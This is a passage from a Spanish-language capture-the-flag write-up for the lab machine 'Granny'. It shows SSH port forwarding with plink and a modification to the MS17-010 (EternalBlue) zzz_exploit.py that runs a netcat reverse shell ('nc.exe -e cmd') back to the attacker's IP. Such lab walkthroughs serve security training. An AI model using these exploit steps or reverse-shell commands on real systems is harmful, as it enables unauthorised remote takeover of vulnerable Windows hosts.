 Iniciamos mi servicio SSH.
```console
intrusionz3r0@kali:~$ sudo service ssh start
```

Creamos la regla de port forwarding.

```console
C:\WINDOWS\Temp>plink32.exe -l root -pw ink130198 -R 445:127.0.0.1:445 10.10.14.2
```

Una vez hecho esto vamos a verificar que la regla de port forwarding se haya creado correctamente, para ello ejecuto `crackmapexec` .

```console
intrusionz3r0@kali:~$ cme smb 127.0.0.1
SMB         127.0.0.1       445    GRANNY           [*] Windows Server 2003 R2 3790 Service Pack 2 (name:GRANNY) (domain:granny) (signing:False) (SMBv1:True)
```
Como podemos observar nuestro puerto 445 se esta tunelizando con el servicio samba de la máquina Granny y ahora si podemos realizar el test.

# Explotación de eternalblue.

El repositorio que usaremos para la explotación sera el siguiente: [MS17-010](https://github.com/worawit/MS17-010).

Lanzamos el checker a nuestra IP local.

![](https://lh6.googleusercontent.com/byx6pnpSd05QAgoCkEzny1ofuKR9oD8YIxAcfiriIiE0rcmih1rkmvq24fU0yhUTIeKhauIAu-RPEX4Rm_pPmYvagIRQ9ZDuoArr4gCsle6SBEHp5x3_1xBrYb3fv-uGV2h0hIbm)

Y efectivamente la máquina es vulnerable a eternalblue y esto lo se porque me muestra algunos pipes en `ok`.

El exploit que utilizaremos será el `zzz_exploit.py`.

Si recuerdan la máquina anterior [Grandpa](https://intrusionz3r0.github.io/posts/Grandpa/) ya sabran que hacer, debemos modificar una parte del código del `zzz_exploit.py` donde le especificaremos el comando a ejecutar.

Haremos la siguiente modificación.
```python
def smb_pwn(conn, arch):
        #smbConn = conn.get_smbconnection()

        #print('creating file c:\\pwned.txt on the target')
        #tid2 = smbConn.connectTree('C$')
        #fid2 = smbConn.createFile(tid2, '/pwned.txt')
        #smbConn.closeFile(tid2, fid2)
        #smbConn.disconnectTree(tid2)

        #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
        service_exec(conn, r'cmd /c c:\WINDOWS\Temp\nc.exe -e cmd 10.10.14.2 1234')
        # Note: there are many methods to get shell over SMB admin session
        # a simple method to get shell (but easily to be detected by AV) is
        # executing binary generated by "msfvenom -f exe-service ..."
```
Por último dejamos nuestro netcat a la escucha de cualquier conexión entrante y ejecutamos el exploit.
